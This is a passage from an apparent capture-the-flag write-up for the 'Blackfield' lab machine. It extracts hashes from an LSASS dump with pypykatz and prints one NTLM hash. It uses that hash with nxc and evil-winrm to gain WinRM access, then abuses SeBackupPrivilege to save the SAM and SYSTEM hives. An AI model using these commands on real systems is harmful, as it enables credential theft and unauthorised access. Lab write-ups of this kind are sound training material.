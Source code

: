 ```shell
unzip lsass.zip
pypykatz lsa minidump lsass.DMP
```
We got many hashes from the dump, but after testing them we will find out that the only valid hash is the hash for the user svc_backup:
```shell
9658d1d1dcd9250115e2205d9f48400d
```

```shell
nxc winrm 10.129.191.43 -u svc_backup -H :9658d1d1dcd9250115e2205d9f48400d
```

```shell
WINRM       10.129.191.43   5985   DC01             [+] BLACKFIELD.local\svc_backup:9658d1d1dcd9250115e2205d9f48400d (Pwn3d!)
```

The hash of the user svc_backup allow us to get access through WinRM. This means that we can get access as user svc_backup using evil-winrm:

```shell
evil-winrm -i 10.129.191.43 -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d
```
## User Flag
```shell
type C:\Users\svc_backup\Desktop\user.txt
```
# Privilege Escalation
## Abusing SeBackupPrivilege as svc_backup to Dump SAM
After getting access as user svc_backup, we run whoami /priv to check the privileges of this user:
```shell
whoami /priv
```

```shell
PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

Here we can see that the user svc_backup has SeBackupPrivilege enabled.

We can abuse this to dump the local SAM using the following commands:
```shell
reg save HKLM\SAM C:\Windows\Temp\SAM
reg save HKLM\SYSTEM C:\Windows\Temp\SYSTEM
```
